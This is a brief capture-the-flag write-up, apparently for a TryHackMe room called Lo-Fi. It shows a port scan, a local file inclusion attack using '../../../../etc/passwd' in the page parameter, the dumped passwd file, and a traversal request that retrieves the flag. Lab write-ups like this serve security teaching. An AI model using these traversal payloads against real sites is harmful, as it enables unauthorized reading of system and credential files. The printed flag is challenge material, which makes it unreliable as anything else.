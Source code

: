 # Lo-Fi

We get a hint that this room has a LFI Path vulnerability 

nmap scan 

```abap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 63
```

Visiting the website we see its a site that has music videos on youtube and a search bar.

Above we see the url is suceptable to changing the query. So I run

```abap
http://lofi.thm/?page=../../../../etc/passwd
```

It gives back a return of 

```abap
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh 
```

Confirmed it works I try 

```abap
http://lofi.thm/?page=../../../../flag.txt
```

Flag 

> flag{e4478e0eab69bd642b8238765dcb7d18}
>
